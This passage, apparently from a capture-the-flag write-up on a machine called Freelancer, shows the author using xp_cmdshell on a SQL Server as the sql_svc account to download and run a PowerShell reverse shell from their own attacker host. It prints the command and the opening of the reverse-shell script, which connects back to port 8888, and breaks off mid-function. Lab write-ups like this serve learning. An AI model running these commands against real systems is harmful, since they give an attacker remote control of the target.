 ![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%209.png)

I can see it is sql_svc account. 

Now, I ran: 

```
EXECUTE xp_cmdshell 'powershell -c iex(iwr -usebasicparsing http://10.10.14.72:8000/revshell.ps1)'
```

This downloads the reverse shell powershell script from my kali machine to target machine.

The script contents the following script:

```powershell
do {
	Start-Sleep -Seconds 1
	
	try {
		$TCPClient = New-Object Net.Sockets.TCPClient('10.10.14.72', 8888)
	} catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

function WriteToStream ($String) {
	[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
	
```